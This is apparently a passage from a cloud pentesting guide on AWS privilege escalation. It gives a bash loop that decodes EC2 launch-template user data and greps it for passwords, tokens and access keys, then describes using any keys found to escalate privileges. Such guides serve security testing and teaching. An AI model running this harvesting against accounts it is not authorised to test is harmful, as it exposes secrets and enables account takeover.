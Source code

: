 ```bash
for i in $(aws ec2 describe-launch-templates --region us-east-1 | jq -r '.LaunchTemplates[].LaunchTemplateId')
do
  echo "[*] Analyzing $i"
  aws ec2 describe-launch-template-versions --launch-template-id $i --region us-east-1 | jq -r '.LaunchTemplateVersions[] | "\(.VersionNumber) \(.LaunchTemplateData.UserData)"' | while read version userdata
  do
    echo "VersionNumber: $version"
    echo "$userdata" | base64 -d
    echo
  done | grep -iE "aws_|password|token|api"
done
```

In the above commands, although we're specifying certain patterns (`aws_|password|token|api`), you can use a different regex to search for other types of sensitive information.

Assuming we find `aws_access_key_id` and `aws_secret_access_key`, we can use these credentials to authenticate to AWS.

**Potential Impact:** Direct privilege escalation to IAM user(s).

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

